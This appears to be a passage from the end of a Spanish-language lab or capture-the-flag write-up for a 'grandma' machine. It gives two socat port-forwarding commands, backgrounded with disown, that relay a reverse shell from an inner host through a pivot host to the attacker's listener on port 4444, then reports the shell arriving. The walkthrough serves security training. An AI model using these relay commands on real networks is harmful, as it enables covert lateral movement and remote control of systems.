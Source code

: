 ```python 
// Shell redirect grandma 2 --> grandma 1 
./socat TCP-LISTEN:666,fork TCP:20.20.20.2:666 & disown
```

```python 
// Shell redirect grandma 1 --> Attackers machine 
./socat TCP-LISTEN:666,fork TCP:172.17.0.1:4444 & disown
```

Nos llega la shell y completamos el laboratorio 

![Image 24](/assets/images/grandma/root.png)
